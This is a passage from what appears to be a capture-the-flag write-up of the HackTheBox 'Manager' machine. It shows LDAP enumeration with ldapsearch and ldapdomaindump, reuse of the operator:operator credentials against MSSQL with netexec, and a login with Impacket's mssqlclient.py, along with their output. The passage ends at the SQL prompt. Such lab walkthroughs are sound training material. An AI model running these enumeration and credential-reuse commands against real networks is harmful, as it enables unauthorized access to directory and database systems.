 Running `ldapsearch -H ldap://dc01.manager.htb -x -D 'operator@manager.htb' -w operator -b "DC=manager,DC=htb"` will dump a bunch of LDAP to the terminal. I’ll use `ldapdomaindump` to get all the info in a more viewable way:

```
oxdf@hacky$ mkdir ldap
oxdf@hacky$ ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ldap/
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
oxdf@hacky$ ls ldap/
domain_computers_by_os.html  domain_computers.html  domain_groups.grep  domain_groups.json  domain_policy.html  domain_trusts.grep  domain_trusts.json          domain_users.grep  domain_users.json
domain_computers.grep        domain_computers.json  domain_groups.html  domain_policy.grep  domain_policy.json  domain_trusts.html  domain_users_by_group.html  domain_users.html

```

The `domain_users_by_group.html` file is a nice overview of the users to target:

[![image-20240313065640502](https://0xdf.gitlab.io/img/image-20240313065640502.png)_Click for full size image_](https://0xdf.gitlab.io/img/image-20240313065640502.png)

Raven is a good target to get shell over WinRM. Nothing else seems interesting.

#### MSSQL

The creds work for the database as well:

```
oxdf@hacky$ netexec mssql manager.htb -u operator -p operator
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator

```

`mssqlclient.py` will connect, using the `-windows-auth` flag to say that it’s using the OS authentication, not creds within the DB:

```
oxdf@hacky$ mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>

```
